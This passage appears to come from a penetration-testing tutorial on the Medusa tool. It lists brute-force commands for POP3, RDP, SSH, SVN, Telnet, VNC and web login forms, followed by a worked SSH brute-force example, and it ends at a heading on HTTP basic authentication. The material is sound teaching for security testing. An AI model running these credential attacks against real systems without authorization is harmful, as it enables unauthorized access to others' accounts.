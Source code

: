 <td>POP3</td>
<td>Post Office Protocol 3</td>
<td>Brute-forcing POP3 logins, typically used to retrieve emails from a mail server.</td>
<td><code>medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt</code></td>
</tr>
<tr>
<td>RDP</td>
<td>Remote Desktop Protocol</td>
<td>Brute-forcing RDP logins, commonly used for remote desktop access to Windows systems.</td>
<td><code>medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt</code></td>
</tr>
<tr>
<td>SSHv2</td>
<td>Secure Shell (SSH)</td>
<td>Brute-forcing SSH logins, commonly used for secure remote access.</td>
<td><code>medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt</code></td>
</tr>
<tr>
<td>Subversion (SVN)</td>
<td>Version Control System</td>
<td>Brute-forcing Subversion (SVN) repositories for version control.</td>
<td><code>medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt</code></td>
</tr>
<tr>
<td>Telnet</td>
<td>Telnet Protocol</td>
<td>Brute-forcing Telnet services for remote command execution on older systems.</td>
<td><code>medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt</code></td>
</tr>
<tr>
<td>VNC</td>
<td>Virtual Network Computing</td>
<td>Brute-forcing VNC login credentials for remote desktop access.</td>
<td><code>medusa -M vnc -h 192.168.1.100 -P passwords.txt</code></td>
</tr>
<tr>
<td>Web Form</td>
<td>Brute-forcing Web Login Forms</td>
<td>Brute-forcing login forms on websites using HTTP POST requests.</td>
<td><code>medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&amp;password=^PASS^:F=Invalid"</code></td>
</tr>
</tbody>
</table>
<h3>Targeting an SSH Server</h3>
<p>Imagine a scenario where you need to test the security of an SSH server at <code>192.168.0.100</code>. You have a list of potential usernames in <code>usernames.txt</code> and common passwords in <code>passwords.txt</code>. To launch a brute-force attack against the SSH service on this server, use the following Medusa command:</p>
<pre><code class="language-shell-session">[!bash!]$ medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
</code></pre>
<p>This command instructs Medusa to:</p>
<ul>
<li>Target the host at <code>192.168.0.100</code>.</li>
<li>Use the usernames from the <code>usernames.txt</code> file.</li>
<li>Test the passwords listed in the <code>passwords.txt</code> file.</li>
<li>Employ the <code>ssh</code> module for the attack.</li>
</ul>
<p>Medusa will systematically try each username-password combination against the SSH service to attempt to gain unauthorized access.</p>
<h3>Targeting Multiple Web Servers with Basic HTTP Authentication</h3>